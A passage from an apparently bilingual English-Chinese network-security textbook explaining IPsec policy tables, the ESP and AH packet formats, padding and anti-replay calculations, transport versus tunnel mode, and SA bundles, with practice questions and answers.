Example SPD of host 1.2.3.101 on the corporate network 1.2.3.0/24. It may reach the server 1.2.4.10 in the DMZ 1.2.4.0/24 (Section 21.5):主机 1.2.3.101 的 SPD 示例，该主机位于企业网 1.2.3.0/24 中。它可以访问位于 DMZ 1.2.4.0/24 中的服务器 1.2.4.10（见第 21.5 节）：
| # | Protocol协议 | Local IP : port本地 IP：端口 | Remote IP : port远端 IP：端口 | Action动作 | Comment注释 |
|---|---|---|---|---|---|
| 1 | UDP | 1.2.3.101 : 500 | any : 500 | BYPASS | IKE |
| 2 | ICMP | 1.2.3.101 : any | any : any | BYPASS | error messages错误消息 |
| 3 | any | 1.2.3.101 : any | 1.2.3.0/24 : any | PROTECT: ESP transportPROTECT：ESP 传输模式 | encrypt intranet traffic加密内网流量 |
| 4 | TCP | 1.2.3.101 : any | 1.2.4.10 : 80 | PROTECT: ESP transportPROTECT：ESP 传输模式 | encrypt to server加密发往服务器的流量 |
| 5 | TCP | 1.2.3.101 : any | 1.2.4.10 : 443 | BYPASS | TLS already encryptsTLS 已加密 |
| 6 | any | 1.2.3.101 : any | 1.2.4.0/24 : any | DISCARD | other DMZ hosts其他 DMZ 主机 |
| 7 | any | 1.2.3.101 : any | any : any | BYPASS | Internet因特网 |
Order matters: the DISCARD row 6 comes after rows 4 and 5, so the two permitted flows to the server are not discarded.顺序很重要：第 6 行的 DISCARD 位于第 4 和第 5 行之后，因此通向服务器的两条许可流不会被丢弃。
Step 3: processing a packet第 3 步：处理数据包
Outbound packet, how to do it by hand:出站数据包，手工处理方法：
- Search the SPD. No match: discard the packet and generate an error message.检索 SPD。若无匹配项：丢弃该数据包并生成错误消息。
- The first matching entry decides. DISCARD: drop. BYPASS: forward with no IPsec processing.首个匹配项决定处理方式。DISCARD：丢弃。BYPASS：不经 IPsec 处理，直接转发。
- PROTECT: search the SAD for the SA. If none exists, invoke IKE to create it and its keys, and enter it in the SAD.PROTECT：在 SAD 中查找 SA。若没有，则调用 IKE 创建它及其密钥，并将其录入 SAD。
- The SAD entry fixes the processing: encryption, authentication or both, and transport or tunnel mode. Apply ESP or AH and forward.SAD 表项确定处理方式：加密、认证或两者都做，以及传输模式还是隧道模式。应用 ESP 或 AH，然后转发。
Inbound packet, how to do it by hand:入站数据包，手工处理方法：
- Read the IP Protocol or Next Header field. It shows whether the packet has an ESP or AH header.读取 IP 协议字段或下一首部字段，看数据包中是否有 ESP 或 AH 首部。
- Plain packet: search the SPD. BYPASS: strip the IP header and deliver the payload upward. PROTECT, DISCARD or no match: discard.明文数据包：检索 SPD。BYPASS：剥离 IP 首部，并将载荷向上交付。PROTECT、DISCARD 或无匹配：丢弃。
- Secured packet: search the SAD. No match: discard. Otherwise apply ESP or AH processing, strip the IP header and deliver.受保护的数据包：在 SAD 中查找。若无匹配则丢弃。否则进行 ESP 或 AH 处理，去掉 IP 首部后交付。

Worked trace with addresses带地址的完整追踪示例
Host 1.2.3.101 sends a TCP segment from port 40000 to the server 1.2.4.10 port 80. Its SPD is the table above.主机 1.2.3.101 从端口 40000 向服务器 1.2.4.10 的 80 端口发送一个 TCP 段。其 SPD 即上表。
| Step步骤 | Check检查项 | Result结果 |
|---|---|---|
| 1 | Row 1: UDP port 500第 1 行：UDP 端口 500 | No, the packet is TCP否，数据包是 TCP |
| 2 | Row 2: ICMP第 2 行：ICMP | No否 |
| 3 | Row 3: remote address in 1.2.3.0/24第 3 行：远端地址在 1.2.3.0/24 内 | No, 1.2.4.10 is outside this block否，1.2.4.10 不在此网段内 |
| 4 | Row 4: TCP, remote 1.2.4.10 port 80第 4 行：TCP，远端 1.2.4.10 端口 80 | Match: PROTECT, ESP transport mode匹配：PROTECT，ESP 传输模式 |
| 5 | Search the SAD for the ESP SA to 1.2.4.10在 SAD 中查找发往 1.2.4.10 的 ESP SA | Found, for example with SPI 0x2001 (an example value). If none exists, IKE runs first找到，例如 SPI 为 0x2001（示例值）。若没有，则先运行 IKE |
| 6 | Apply ESP应用 ESP | Add the ESP header with SPI 0x2001 and the next sequence number. Encrypt, add the ICV, send加上 SPI 为 0x2001 的 ESP 首部和下一个序号。加密，加上 ICV，发送 |
At the server 1.2.4.10 the packet arrives with protocol field 50. The server reads the destination address 1.2.4.10, the protocol ESP and the SPI 0x2001. These three values select one entry in its SAD. That entry gives the keys, algorithms and anti-replay window. A plain TCP packet to port 80 that matched a PROTECT entry at the server would be discarded.数据包到达服务器 1.2.4.10 时，协议字段为 50。服务器读取目的地址 1.2.4.10、协议 ESP 和 SPI 0x2001。这三个值在其 SAD 中选出唯一一条表项。该表项给出密钥、算法和抗重放窗口。若服务器上一个普通的、发往 80 端口的 TCP 数据包与 PROTECT 表项匹配，则会被丢弃。
Practice练习
Q1. (Trace) Using the SPD above, give the matching row and action for each packet sent by host 1.2.3.101: (a) TCP to 1.2.4.10 port 80; (b) TCP to 1.2.4.10 port 443; (c) TCP to 1.2.4.20 port 80; (d) ICMP echo request to 1.2.4.10; (e) UDP to 8.8.8.8 port 53.Q1.（手工演算）依据上述 SPD，给出主机 1.2.3.101 发出的每个数据包所匹配的行及动作：（a）TCP 发往 1.2.4.10 端口 80；（b）TCP 发往 1.2.4.10 端口 443；（c）TCP 发往 1.2.4.20 端口 80；（d）发往 1.2.4.10 的 ICMP 回显请求；（e）发往 8.8.8.8 端口 53 的 UDP。
Answer
(a) Row 4: PROTECT, ESP in transport mode (SAD lookup; IKE if no SA exists). (b) Row 5: BYPASS. (c) Row 4 needs remote address 1.2.4.10, so it fails; row 6 matches: DISCARD. (d) Row 2 (any ICMP) matches before row 6: BYPASS. (e) Rows 1 to 6 fail (row 1 needs ports 500), so row 7: BYPASS.（a）第 4 行：PROTECT，ESP 传输模式（查找 SAD；若无 SA 则调用 IKE）。（b）第 5 行：BYPASS。（c）第 4 行要求远端地址为 1.2.4.10，故不匹配；第 6 行匹配：DISCARD。（d）第 2 行（任意 ICMP）先于第 6 行匹配：BYPASS。（e）第 1 至第 6 行均不匹配（第 1 行要求端口 500），因此匹配第 7 行：BYPASS。
易错：规则从上到下取第一条匹配的，所以 ICMP 报文先被第 2 行放行，到不了第 6 行。
Q2. (Explain) (a) Why must IKE traffic (UDP port 500) be BYPASS? (b) Why is HTTPS to the server BYPASS while HTTP is PROTECT?Q2.（解释）（a）为什么 IKE 流量（UDP 端口 500）必须为 BYPASS？（b）为什么发往服务器的 HTTPS 为 BYPASS，而 HTTP 却为 PROTECT？
Answer
(a) IKE creates the SAs. If IKE packets had to be protected, an SA would be needed before IKE could run, which is circular. IKE protects its own messages with the IKE SA. (b) HTTPS is already encrypted by TLS (Chapter 19), so ESP would encrypt twice at twice the cost without more security. HTTP is plaintext, so ESP adds protection.（a）IKE 负责创建 SA。若 IKE 报文本身也必须受保护，则需要先有 SA 才能运行 IKE，这就形成了循环。IKE 用其 IKE SA 保护自身的消息。（b）HTTPS 已由 TLS 加密（第 19 章），若再用 ESP 加密，就会加密两次，开销翻倍，却不会带来更多安全性。HTTP 是明文的，因此 ESP 能增加保护。
Q3. (Identify) Which fields of an arriving ESP packet identify its SA, and who chooses the SPI?Q3.（识别）到达的 ESP 数据包的哪些字段可以标识其 SA？SPI 由谁选定？
Answer
The destination IP address (IP header), the SPI (ESP header) and the protocol identifier ESP (IP Protocol or Next Header value 50). The receiving end chooses the SPI, because it has only local significance: the receiver must be able to tell its own SAs apart and map an inbound packet to the right SAD entry.目的 IP 地址（IP 首部）、SPI（ESP 首部）以及协议标识符 ESP（IP 协议字段或 Next Header 字段的值 50）。SPI 由接收端选定，因为它只具有本地意义：接收方必须能够区分自己的各个 SA，并将入站数据包映射到正确的 SAD 项。
Encapsulating Security Payload (ESP) ★★★封装安全载荷（ESP）
Goal. Draw the ESP packet and mark what is encrypted and what is authenticated. Compute the padding and the packet length. Apply the anti-replay window to a sequence of packets.目标。画出 ESP 数据包，并标出哪些部分被加密、哪些部分被认证。计算填充和数据包长度。把抗重放窗口应用于一串数据包。
Step 1: the packet format第 1 步：数据包格式
In words: ESP = a header (who and which number), the encrypted data, and a check value at the end.用文字表述：ESP = 首部（标明身份和序号）、加密的数据，以及末尾的校验值。
ESP provides confidentiality, data origin authentication, connectionless integrity, anti-replay and limited traffic-flow confidentiality. Which of these apply depends on the options chosen for the SA. It works with many ciphers and MACs and with authenticated-encryption modes such as GCM (Section 12.5).ESP 提供机密性、数据源认证、无连接完整性、抗重放和有限的流量机密性。具体哪些生效取决于为该 SA 选择的选项。它可以与多种密码和 MAC 配合使用，也可以与 GCM 等认证加密模式配合使用（见第 12.5 节）。

| Field字段 | Size长度 | Meaning含义 |
|---|---|---|
| Security Parameters Index安全参数索引 | 32 bits32 位 | identifies the SA标识 SA |
| Sequence Number序号 | 32 bits32 位 | increasing counter for anti-replay递增的计数器，用于抗重放 |
| Payload Data载荷数据 | variable可变 | transport-layer segment (transport mode) or IP packet (tunnel mode); may begin with an IV传输层段（传输模式）或 IP 数据包（隧道模式）；可以以 IV 开头 |
| Padding填充 | 0–255 bytes0–255 字节 | see below见下文 |
| Pad Length | 8 bits8 位 | number of pad bytes before it其前的填充字节数 |
| Next Header | 8 bits8 位 | type of the first header in the payload (TCP; IP in tunnel mode)载荷中第一个首部的类型（TCP；隧道模式下为 IP） |
| Integrity Check Value (ICV)（完整性校验值） | variable, multiple of 32 bits可变，32 位的整数倍 | MAC over the ESP packet minus the ICV; optional对 ESP 数据包（去掉 ICV）计算的 MAC；可选 |
What is protected.受保护的内容。
- Encrypted: Payload Data, Padding, Pad Length and Next Header. An IV, if present, normally is not encrypted.加密：载荷数据、填充、填充长度和下一首部。IV（如果有）通常不加密。
- Authenticated: everything from the SPI through Next Header. The ICV covers the header and the ciphertext.认证：从 SPI 到下一首部的全部内容。ICV 覆盖首部和密文。
- Neither: the IP header, in transport mode and in tunnel mode for the outer header.两者都不包括：IP 首部，传输模式下如此，隧道模式下外层首部也是如此。
SPI and sequence number stay in clear because the receiver needs them to find the SA and to test for replay before decrypting.SPI 和序号以明文保存，因为接收方需要它们来找到 SA，并在解密前检查是否为重放。
The ICV（完整性校验值）is computed after encryption. It is a MAC (Section 12.2). This order has two benefits.ICV（完整性校验值）是在加密之后计算的。它是一种 MAC（见第 12.2 节）。这种顺序有两个好处。
- The receiver can reject replayed or bogus packets before decrypting. This weakens denial-of-service attacks.接收方可以在解密之前拒绝重放或伪造的数据包。这削弱了拒绝服务攻击。
- Decryption and verification can run in parallel.解密与校验可以并行进行。
The ICV is not encrypted, so it must be a keyed MAC. An unkeyed hash could be recomputed by an attacker who changed the packet.ICV 不加密，因此它必须是带密钥的 MAC。若使用无密钥的哈希，攻击者修改数据包后就可以重新计算它。
Step 2: padding and length第 2 步：填充与长度
In words: padding = filler bytes so that the encrypted part fills whole cipher blocks and the trailer ends on a 32-bit boundary.用文字表述：填充 = 为凑整而添加的填充字节，使加密部分填满整数个密码块，且尾部以 32 位边界结束。
Padding（填充）has three purposes:填充有三个作用：
- Extend the plaintext (payload, padding, pad length, next header) to a multiple of the cipher block size.把明文（载荷、填充、填充长度、下一首部）扩展为密码块大小的整数倍。
- Right-align Pad Length and Next Header in a 32-bit word, so that the ciphertext is a multiple of 32 bits.把填充长度和下一首部在 32 位字中右对齐，使密文为 32 位的整数倍。
- Hide the real payload length, for partial traffic-flow confidentiality（流量保密）. In tunnel mode, extra TFC padding may follow the payload for this.隐藏真实的载荷长度，以提供部分流量保密。在隧道模式下，为此可在载荷之后附加额外的 TFC 填充。
Step 3: the anti-replay service第 3 步：抗重放服务
In words: anti-replay = number every packet, and refuse a number that was already used or is too old.用文字表述：抗重放 = 为每个数据包编号，并拒绝已经用过或过旧的编号。
The sender sets its counter to 0 when the SA is created and adds 1 before each packet, so the first number is 1. The counter must never wrap past \(2^{32}-1\). At that point the sender ends the SA and negotiates a new one with a new key.发送方在 SA 创建时把计数器设为 0，并在每个数据包发送前加 1，因此第一个编号为 1。计数器绝不能超过 \(2^{32}-1\)。到了那一刻，发送方结束该 SA，并协商一个带新密钥的新 SA。
IP may lose or reorder packets, so the receiver does not demand strict order. It keeps an anti-replay window（抗重放窗口）of fixed size and marks the numbers that have arrived.IP 可能丢失或重排数据包，因此接收方不要求严格的顺序。它保持一个固定大小的抗重放窗口，并标记已到达的编号。

How to do it by hand, for a received packet with number \(S\):手工处理收到的编号为 \(S\) 的数据包的方法：
- \(S\) lies in the window and its slot is unmarked: check the ICV. If valid, mark the slot. If the slot is already marked, discard (replay).\(S\) 落在窗口内且其位置未被标记：检查 ICV。若有效，则标记该位置。若该位置已被标记，则丢弃（重放）。
- \(S\) is greater than \(N\): check the ICV. If valid, move the window so that \(S\) is its right edge, and mark \(S\).\(S\) 大于 \(N\)：检查 ICV。若有效，则移动窗口，使 \(S\) 成为其右边界，并标记 \(S\)。
- \(S\) is less than \(N-W+1\), or the ICV check fails: discard. This is an auditable event.\(S\) 小于 \(N-W+1\)，或 ICV 检查失败：丢弃。这是一个可审计事件。
The window moves only after a valid ICV, so a forged number cannot push the window.只有在 ICV 有效之后窗口才移动，因此伪造的编号无法推动窗口。
Practice练习
Q1. (Calculation) The payload data is \(L=101\) bytes. Find the padding length and the encrypted length for (a) AES-CBC (16-byte blocks) and (b) a cipher that needs only 32-bit alignment.Q1.（计算）有效载荷数据为 \(L=101\) 字节。求以下两种情况的填充长度与加密后长度：（a）AES-CBC（16 字节分组）；（b）仅需 32 位对齐的密码。
Answer
(a) \(P=(-(101+2))\bmod16=9\); encrypted length \(101+9+2=112\) bytes, a multiple of 16. (b) \(P=(-103)\bmod4=1\); encrypted length \(101+1+2=104\) bytes, a multiple of 4.（a）\(P=(-(101+2))\bmod16=9\)；加密后长度为 \(101+9+2=112\) 字节，为 16 的倍数。（b）\(P=(-103)\bmod4=1\)；加密后长度为 \(101+1+2=104\) 字节，为 4 的倍数。
Q2. (Trace) The replay window currently spans 120 to 530. What does the receiver do, and what is the window afterwards, if the next authenticated packet has sequence number (a) 340, (b) 598, (c) 110?Q2.（手工演算）当前重放窗口覆盖 120 至 530。若下一个经认证的数据包序号为（a）340，（b）598，（c）110，接收方会如何处理？处理之后窗口是什么？
Answer
Here \(W=530-120+1=411\) and \(N=530\). (a) 340 lies inside the window. If its slot is unmarked, the receiver checks the ICV, accepts and marks it; the window stays \([120,530]\). If the slot is already marked, it is a replay and is discarded. (b) 598 is right of the window. After a valid ICV the window advances to \([598-411+1,\,598]=[188,598]\) and 598 is marked. (c) 110 is below 120, so the packet is discarded as an auditable event; the window is unchanged.此处 \(W=530-120+1=411\) 与 \(N=530\)。（a）340 位于窗口之内。若其槽位未被标记，接收方检查 ICV，接受并标记该数据包；窗口保持为 \([120,530]\)。若其槽位已被标记，则为重放，予以丢弃。（b）598 位于窗口右侧。ICV 有效后，窗口前移至 \([598-411+1,\,598]=[188,598]\)，并标记 598。（c）110 小于 120，因此该数据包被丢弃，并记为可审计事件；窗口保持不变。
Q3. (Explain) Give two benefits of computing the ICV after encryption, and say why the ICV must come from a keyed algorithm.Q3.（解释）说明在加密之后计算 ICV 的两项好处，并说明 ICV 为什么必须来自带密钥的算法。
Answer
(i) The receiver can verify the ICV, and check the sequence number, before decrypting, so bogus or replayed packets are rejected cheaply, which limits denial-of-service attacks. (ii) Decryption and integrity checking can run in parallel. The ICV is not encrypted, so anyone could recompute an unkeyed hash after altering the packet; a keyed MAC prevents this.（i）接收方可以在解密之前验证 ICV 并检查序号，从而廉价地拒绝伪造或重放的数据包，限制拒绝服务攻击。（ii）解密与完整性检查可以并行进行。ICV 本身不加密，因此任何人在篡改数据包之后都可以重新计算一个无密钥的散列；带密钥的 MAC 可以防止这种情况。
Transport mode, tunnel mode and AH ★★★传输模式、隧道模式与 AH
Goal. Compare transport and tunnel mode and AH and ESP. Draw the IPv4 packet in each case and mark the encrypted and the authenticated part. Choose the mode for a given network.目标。比较传输模式与隧道模式，以及 AH 与 ESP。在每种情形下画出 IPv4 数据包，并标出加密和认证的部分。为给定的网络选择合适的模式。
Step 1: transport mode第 1 步：传输模式
In words: transport mode = keep the original IP header and protect only what is inside the packet; it runs between two hosts.用文字表述：传输模式 = 保留原始 IP 首部，只保护数据包内部的内容；它在两台主机之间运行。
Both ESP and AH can run in transport mode（传输模式）or tunnel mode（隧道模式）. The modes are shown for ESP, the more widely used protocol.ESP 和 AH 都可以运行在传输模式或隧道模式下。图示以 ESP 为例，它是使用更广泛的协议。

Transport mode protects the payload of an IP packet, such as a TCP segment, a UDP segment or an ICMP packet. It is typically used end to end between two hosts.传输模式保护 IP 数据包的载荷，例如 TCP 段、UDP 段或 ICMP 数据包。它通常用于两台主机之间的端到端通信。
- In IPv4 the ESP header is inserted just before the transport header.在 IPv4 中，ESP 首部插在传输层首部之前。
- The ESP trailer (padding, pad length, next header) and the authentication data (if selected) are appended after the data.ESP 尾部（填充、填充长度、下一首部）以及认证数据（若选用）附加在数据之后。
- The segment and trailer are encrypted. The authentication covers the ESP header and the ciphertext, but not the IP header.段和尾部被加密。认证覆盖 ESP 首部和密文，但不包括 IP 首部。
- In IPv6 the ESP header follows the base header and the hop-by-hop, routing and fragment extension headers.在 IPv6 中，ESP 首部位于基本首部以及逐跳选项、路由和分片扩展首部之后。
Routers read only the IP header. The destination uses the SPI to find the SA, then verifies and decrypts. Any application gets confidentiality without change. The drawback is that the addresses stay visible, so traffic analysis（流量分析）is possible: an eavesdropper sees who talks to whom.路由器只读取 IP 首部。目的主机使用 SPI 找到 SA，然后校验并解密。任何应用无需改动即可获得机密性。缺点是地址保持可见，因此可能进行流量分析：窃听者能看到谁和谁通信。
Step 2: tunnel mode第 2 步：隧道模式
In words: tunnel mode = put the whole original packet into a new packet with a new outer header; it runs between gateways.用文字表述：隧道模式 = 把整个原始数据包放进一个带有新外层首部的新数据包中；它在网关之间运行。
Tunnel mode protects the entire IP packet. After the ESP fields are added, the whole packet becomes the payload of a new packet with a new outer IP header. The inner packet travels through the tunnel and no router on the way can read the inner header. The outer header is built afresh. Its addresses are the tunnel endpoints and its protocol is ESP (50). The receiving gateway strips it and delivers the inner packet.隧道模式保护整个 IP 数据包。添加 ESP 字段之后，整个数据包成为一个新数据包的载荷，该新数据包带有新的外层 IP 首部。内层数据包在隧道中传输，途中的任何路由器都读不到内层首部。外层首部是重新构造的，其地址是隧道端点，其协议为 ESP（50）。接收方网关去掉外层首部，交付内层数据包。
Tunnel mode is used when one or both ends of the SA are security gateways. Hosts behind the gateways need no IPsec, fewer keys are needed, and traffic analysis of the ultimate destination is thwarted.当 SA 的一端或两端是安全网关时，使用隧道模式。网关后面的主机无需 IPsec，所需密钥更少，且能防止对最终目的地的流量分析。

A virtual private network (VPN)（虚拟专用网）built with IPsec puts a router or firewall at the edge of each LAN. That device applies ESP in tunnel mode to all traffic leaving for the Internet and decrypts the traffic arriving. Workstations and servers do not notice. A user who connects from outside must run IPsec on his own machine. Where to place the VPN end point is explained in Section 21.5.用 IPsec 构建的虚拟专用网（VPN）在每个局域网的边缘放一台路由器或防火墙。该设备对发往因特网的所有流量应用隧道模式的 ESP，并对到达的流量进行解密。工作站和服务器毫无察觉。从外部连接的用户必须在自己的机器上运行 IPsec。VPN 端点应放在何处，见第 21.5 节。
Step 3: the two modes compared, with layouts第 3 步：两种模式对比及格式图
| Transport mode SA传输模式 SA | Tunnel mode SA隧道模式 SA | |
|---|---|---|
| Typical endpoints典型端点 | host to host主机到主机 | at least one security gateway (VPN)至少一个安全网关（VPN） |
| Protected unit受保护单元 | IP payload (upper-layer segment)IP 载荷（上层段） | entire inner IP packet整个内层 IP 数据包 |
| IP headerIP 首部 | original, visible原始的，可见 | inner header hidden; new outer header内层首部隐藏；新的外层首部 |
| ESP encryptsESP 加密 | payload and any IPv6 extension headers after the ESP header载荷以及 ESP 首部之后的所有 IPv6 扩展首部 | entire inner packet整个内层数据包 |
| ESP with authentication带认证的 ESP | authenticates the payload, not the IP header认证载荷，不认证 IP 首部 | authenticates the inner packet, not the outer header认证内层数据包，不认证外层首部 |
| AH authenticatesAH 认证 | payload and selected IP header fields载荷以及所选的 IP 首部字段 | inner packet and selected outer header fields内层数据包以及所选的外层首部字段 |
The layouts of the IPv4 packet, for drawing from memory:用于默写的 IPv4 数据包格式图：
{ } encrypted ( ) authenticated * mutable fields zeroed for the AH ICV
no IPsec : IP hdr | TCP | Data
ESP transport : IP hdr | ( ESP hdr | { TCP | Data | ESP trlr } ) | ESP auth
ESP tunnel : New IP hdr | ( ESP hdr | { Orig IP hdr | TCP | Data | ESP trlr } ) | ESP auth
AH transport : ( IP hdr* | AH | TCP | Data )
AH tunnel : ( New IP hdr* | AH | Orig IP hdr | TCP | Data )
How to read the layouts: the packet is written from left to right as it goes on the wire. Braces mark the encrypted part and round brackets mark the authenticated part. An asterisk in the AH rows marks IP header fields that change in transit. They are set to zero when the AH ICV is computed.如何阅读这些格式图：数据包按其在线路上传输的顺序从左到右书写。花括号标出加密的部分，圆括号标出认证的部分。AH 行中的星号标出在传输过程中会变化的 IP 首部字段，计算 AH ICV 时它们被置为零。
Step 4: AH against ESP第 4 步：AH 与 ESP 对比
In words: AH = authentication only, and it also covers the IP header; ESP = encryption plus optional authentication, and it never covers the outer header.用文字表述：AH = 只做认证，并且它也覆盖 IP 首部；ESP = 加密加可选的认证，且它从不覆盖外层首部。
AH (RFC 4302, IP protocol 51) has these fields: Next Header (8 bits), Payload Length (8 bits), Reserved (16 bits), SPI (32 bits), Sequence Number (32 bits) and a variable-length ICV.AH（RFC 4302，IP 协议号 51）包含以下字段：下一首部（8 位）、载荷长度（8 位）、保留（16 位）、SPI（32 位）、序号（32 位）以及长度可变的 ICV。
| Criterion比较项 | AH | ESP |
|---|---|---|
| IP protocol numberIP 协议号 | 51 | 50 |
| Confidentiality机密性 | No否 | Yes, optional encryption是，可选加密 |
| Integrity and data origin authentication完整性和数据源认证 | Yes是 | Yes, with the authentication option是，选用认证选项时 |
| Anti-replay抗重放 | Yes是 | Yes是 |
| What the ICV coversICV 覆盖的内容 | The AH, the payload, and every IP header field that does not change in transitAH、载荷，以及每个在传输中不变的 IP 首部字段 | The ESP header, the payload and the ESP trailer, not the outer IP headerESP 首部、载荷和 ESP 尾部，不包括外层 IP 首部 |
| Behind NAT在 NAT 之后 | Fails: the ICV covers the addresses, and NAT rewrites them失效：ICV 覆盖地址，而 NAT 会改写地址 | Works in tunnel mode在隧道模式下可用 |
| Status状态 | Deprecated in IPsecv3在 IPsecv3 中已弃用 | The recommended protocol推荐使用的协议 |
The mutable fields are TTL or hop limit, DS and ECN, flags, fragment offset and the header checksum. They are zeroed for the AH computation, because routers change them. ESP survives NAT because its ICV does not cover the outer IP header. A port-based NAT cannot read the ports inside encrypted ESP, so in practice ESP is wrapped in UDP (port 4500, "NAT traversal").会变化的字段包括 TTL 或跳数限制、DS 和 ECN、标志、分片偏移以及首部校验和。计算 AH 时它们被置零，因为路由器会修改它们。ESP 能经受 NAT，因为其 ICV 不覆盖外层 IP 首部。基于端口的 NAT 无法读取加密 ESP 内部的端口，因此实践中会把 ESP 封装在 UDP（端口 4500，即“NAT 穿越”）中。
Practice练习
Q1. (Calculation) An IPv4 packet of 1,000 bytes is sent through an ESP tunnel with AES-CBC (16-byte IV and blocks) and HMAC-SHA-1-96 (12-byte ICV); the new IPv4 header has 20 bytes. Find the pad length, the outer packet size and the overhead. What is the largest inner packet that fits a 1,500-byte MTU?Q1.（计算）一个 1,000 字节的 IPv4 数据包通过 ESP 隧道发送，使用 AES-CBC（16 字节 IV 和分组）与 HMAC-SHA-1-96（12 字节 ICV）；新的 IPv4 首部为 20 字节。求填充长度、外层数据包大小及开销。能够装入 1,500 字节 MTU 的最大内层数据包是多大？
Answer
The payload data is the whole inner packet, \(L=1000\). \(P=(-1002)\bmod16=6\), so the encrypted part is 1,008 bytes. ESP length \(=8+16+1008+12=1044\); outer packet \(=20+1044=1064\) bytes, an overhead of 64 bytes (6.4%). For the MTU, the fixed part is \(20+8+16+12=56\) bytes, so \(L+P+2\le1444\) and, being a multiple of 16, \(\le1440\). Hence \(L\le1438\) (with \(P=0\), outer packet 1,496 bytes). A larger inner packet must be fragmented or the sender must reduce its size; this is why the SAD keeps the path MTU.载荷数据为整个内层数据包，即 \(L=1000\)。\(P=(-1002)\bmod16=6\)，因此加密部分为 1,008 字节。ESP 长度为 \(=8+16+1008+12=1044\)；外层数据包为 \(=20+1044=1064\) 字节，开销为 64 字节（6.4%）。对于 MTU，固定部分为 \(20+8+16+12=56\) 字节，因此 \(L+P+2\le1444\)，并且由于它是 16 的倍数，\(\le1440\)。由此得到 \(L\le1438\)（即 \(P=0\)，外层数据包为 1,496 字节）。更大的内层数据包必须分片，或者发送方必须缩小其大小；这正是 SAD 要保存路径 MTU 的原因。
Q2. (Choose) Pick transport or tunnel mode and name the SA endpoints: (a) two servers in one data center exchanging confidential data; (b) two branch-office firewalls; (c) a travelling employee's laptop reaching an intranet server through the company firewall.Q2.（选择）为每种情形选择传输模式或隧道模式，并指出 SA 的端点：（a）同一数据中心中交换机密数据的两台服务器；（b）两台分支机构的防火墙；（c）出差员工的笔记本电脑通过公司防火墙访问内网服务器。
Answer
(a) Transport mode, endpoints are the two servers: both support IPsec and the per-packet overhead is lower. (b) Tunnel mode, endpoints are the firewalls: internal hosts need no IPsec, only the gateways hold keys, and internal addresses are hidden. (c) Tunnel mode between the laptop and the firewall: one end is a gateway, so tunnel mode is required, and the laptop must run IPsec. An extra SA from the laptop to the server may be added.（a）传输模式，端点为两台服务器：二者都支持 IPsec，且每个数据包的开销较低。（b）隧道模式，端点为防火墙：内部主机无需 IPsec，仅网关持有密钥，内部地址也被隐藏。（c）笔记本电脑与防火墙之间采用隧道模式：一端为网关，因此必须使用隧道模式，并且笔记本电脑必须运行 IPsec。还可以另外增加一个从笔记本电脑到服务器的 SA。
Q3. (Extension) Why can AH not pass through a NAT device, while ESP in tunnel mode can?Q3.（扩展）为什么 AH 无法穿越 NAT 设备，而采用隧道模式的 ESP 却可以？
Answer
AH's ICV covers the immutable IP header fields, including the source and destination addresses. A NAT device rewrites an address, so the receiver's ICV check fails. ESP's ICV covers only the ESP header and what follows, not the outer IP header, so address rewriting does not invalidate it. A port-based NAT cannot read ports inside encrypted ESP, so in practice ESP is wrapped in UDP (port 4500, "NAT traversal").AH 的 ICV 覆盖不变的 IP 首部字段，包括源地址和目的地址。NAT 设备会改写地址，因此接收方的 ICV 检查失败。ESP 的 ICV 只覆盖 ESP 首部及其之后的内容，不覆盖外层 IP 首部，因此地址改写不会使其失效。基于端口的 NAT 无法读取加密的 ESP 内部的端口，因此实际中 ESP 会被封装在 UDP（端口 4500，即“NAT 穿越”）之中。
Combining security associations ★★组合安全关联
Goal. Define an SA bundle and its two ways of construction, compare the ways to get authentication plus confidentiality, and name the four basic combinations.目标。定义 SA 束及其两种构造方式，比较获得认证加机密性的几种方式，并列出四种基本组合。
An SA applies AH or ESP but not both. A flow may need both, or host-to-host services together with separate gateway-to-gateway services. A security association bundle（SA 束）is a sequence of SAs through which traffic is processed to give the required services. Its SAs may end at the same endpoint or at different ones. There are two ways to build a bundle, and they can be mixed:一个 SA 只应用 AH 或 ESP 之一，而不能两者都用。一条流可能同时需要两者，也可能需要主机到主机的服务与网关到网关的独立服务并存。SA 束是一串 SA，流量依次经过它们处理，以提供所需的服务。其中的 SA 可以终止于同一端点，也可以终止于不同端点。构造束有两种方法，二者可以混合使用：
- Transport adjacency（传输邻接）: more than one security protocol is applied to the same IP packet without tunneling. Only one level is useful, because all processing happens at one IPsec instance, the final destination.传输邻接：同一个 IP 数据包上应用多于一种安全协议，且不做隧道封装。只有一个层次是有用的，因为所有处理都发生在一个 IPsec 实例上，即最终目的地。
- Iterated tunneling（迭代隧道）: several layers of security protocols through IP tunneling. Nesting can be deep, because each tunnel may begin or end at a different IPsec site along the path.迭代隧道：通过 IP 隧道实现多层安全协议。嵌套可以很深，因为每条隧道都可以在路径上不同的 IPsec 站点开始或结束。
Step 1: authentication plus confidentiality第 1 步：认证加机密性
In words: to get both services between two hosts you can encrypt then authenticate, or authenticate then encrypt.用文字表述：要在两台主机之间同时获得这两种服务，可以先加密再认证，也可以先认证再加密。
| Approach方式 | Construction构造 | Authentication covers认证覆盖范围 | Remarks备注 |
|---|---|---|---|
| ESP with authentication带认证的 ESP | apply ESP, then append the ICV先应用 ESP，再附加 ICV | the ciphertext (transport: payload, not the IP header; tunnel: whole inner packet)密文（传输模式：载荷，不含 IP 首部；隧道模式：整个内层数据包） | one SA; authenticates after encryption一个 SA；在加密之后认证 |
| Transport adjacency传输邻接 | inner ESP transport SA (no authentication), outer AH transport SA内层 ESP 传输 SA（无认证），外层 AH 传输 SA | the ESP packet and the original IP header and extensions (except mutable fields), including addressesESP 数据包以及原始 IP 首部和扩展首部（可变字段除外），包括地址 | covers more fields; two SAs of overhead覆盖更多字段；两个 SA 的开销 |
| Transport–tunnel bundle传输–隧道束 | inner AH transport SA, outer ESP tunnel SA内层 AH 传输 SA，外层 ESP 隧道 SA | the payload and IP header; then everything is encrypted under a new outer header载荷与 IP 首部；然后整体在新的外层首部下加密 | authenticates before encrypting在加密之前认证 |
Authenticating before encrypting protects the authentication data by encryption and lets them be stored with the plaintext. Authenticating after encrypting lets the receiver reject forged or replayed packets without decrypting. This is the default. For two transport SAs only ESP before AH is allowed.先认证后加密，会通过加密来保护认证数据，并使其可以与明文一起保存。先加密后认证，则接收方无需解密就能拒绝伪造或重放的数据包。这是默认方式。对于两个传输模式的 SA，只允许先 ESP 后 AH。
Step 2: the four basic combinations第 2 步：四种基本组合
